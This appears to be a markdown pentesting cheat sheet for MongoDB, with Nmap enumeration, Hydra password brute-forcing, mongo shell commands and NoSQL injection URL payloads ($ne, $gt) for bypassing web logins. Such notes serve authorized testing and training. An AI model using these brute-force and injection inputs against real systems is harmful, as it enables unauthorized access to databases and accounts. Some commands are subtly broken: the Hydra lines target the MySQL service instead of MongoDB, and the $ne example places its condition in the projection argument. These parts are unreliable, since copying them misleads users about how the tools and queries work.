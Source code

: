 ```yaml
---
title: MongoDB Pentesting
desc: Default port is 27017, 27018.
tags: [27017, 27018, Database, Mongo, NoSQL]
alts: []
render_with_liquid: false
---
```


## 1. Enumeration

1. **Use Nmap**

    ```sh
    nmap --script mongodb-info -p 27017 <target-ip>
    nmap --script mongodb-databases -p 27017 <target-ip>
    ```

2. **Brute Force Credentials**

    ```sh
    hydra -l username -P passwords.txt <target-ip> mysql
    hydra -L usernames.txt -p password <target-ip> mysql
    ```

<br />

## 2. Connect

1. **Local**

    ```sh
    mongo
    mongo --port 27017
    ```

2. **Remote**

    ```sh
    mongo --host <target-ip> --port 27017 -u username -p password
    mongo "mongodb://<target-ip>:27017"
    mongo "mongodb://username:password@<target-ip>:27017/?authSource=admin"
    ```

<br />

## 3. Basic Commands

1. **Commonly Used**

    ```sh
    # All databases
    > show dbs
    # Current database
    > db
    # Switch database if it exists, or create new if not exist
    > use db_name
    # Collections
    > show collections
    # Run javascript file
    > load("example.js")

    # List users in the current database
    > show users
    > db.admin.find()

    # Create new collection in current database
    > db.createCollection("users")
    ```

2. **CRUD**

    ```sh
    # Create
    > db.<collection_name>.insert({id: "1", username: "admin"})
    # Read
    > db.<collection_name>.find()
    > db.<collection_name>.findOne({"username":"michael"})
    # Update
    > db.<collection_name>.update({id: "1"}, {$set: {username: "king"}})
    # Delete
    > db.<collection_name>.remove({"name": "Micael"})
    # Delete all documents
    > db.<collection_name>.remove({})
    ```

3. **Operators**

    ```sh
    # $eq: equal
    # ex. username is "admin"
    db.<collection_name>.findOne({username: {"$eq": "admin"}})

    # $ne: not equal
    # ex. password is not "xyz"
    db.<collection_name>.findOne({id: "1"}, {password: {"$ne": "xyz"}})

    # $gt: greater than
    # ex. id is greater than 2
    db.<collection_name>.findOne({id: {"$gt": "2"}})

    # $where:

    # $exists:

    # $regex: 
    ```

<br />

## 4. NoSQL Injection

If the web application uses MongDB, you might be able to fetch the user's information.  
It allows you to bypass authentication.

```sh
https://vulnerable.com/search?username=admin&password[$ne]=xyz
https://vulnerable.com/search?username[$ne]=admin&role=guest
https://vulnerable.com/search?id[$gt]=1&username=mike
```
